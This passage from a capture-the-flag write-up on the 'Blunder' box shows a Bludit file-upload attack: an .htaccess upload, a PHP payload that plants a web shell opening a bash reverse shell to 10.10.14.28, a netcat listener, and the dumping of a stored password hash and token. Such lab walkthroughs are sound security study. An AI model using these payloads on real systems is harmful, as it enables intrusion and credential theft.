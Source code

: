    Server response is a 200 OK, meaning that the file has been uploaded

   ![2020-06-04-18-33-56]({{page.screenshots}}/2020-06-04-18-33-56.png)

2. Using the Burp Suite **repeater function** we edit the previous request in order to upload an **.htaccess** file that allow the image's injected code execution.

   ![2020-06-04-18-34-09]({{page.screenshots}}/2020-06-04-18-34-09.png)
   **Note**: the server responds with an error message, however the file has been uploaded anyway

   ![2020-06-04-18-34-22]({{page.screenshots}}/2020-06-04-18-34-22.png)

3. Sending a GET request to the image, we are executing the code injected into. Because the payload was  

   ```php
   <?php file_put_contents("../../uploads/webShell.php","<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.28/1234 0>&1'\"); ?> "); ?>
   ```

   we are creating a php reverse shell.

   ![2020-06-04-18-34-38]({{page.screenshots}}/2020-06-04-18-34-38.png)

4. Now that we have a php reverse shell on the server we just have to listen with **netcat** waiting for the connection and run the php file.

   ![2020-06-04-18-34-48]({{page.screenshots}}/2020-06-04-18-34-48.png)

   ![2020-06-04-18-35-22]({{page.screenshots}}/2020-06-04-18-35-22.png)


## Lateral Movement to Hugo

Now that we are into the box with a low-privileged shell, we need to find a way to **move laterally** to someone else with higher privileges.
Let's go hunting for **hardcoded passwords** into configuration files. The `/bl-content/databases/` seems to be the right place, and in fact the `/users.php` file contains what we were looking for: a **hashed password** of a machine user.

```bash
www-data@blunder:/var/www$ cat bludit-3.10.0a/bl-content/databases/users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",  
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```
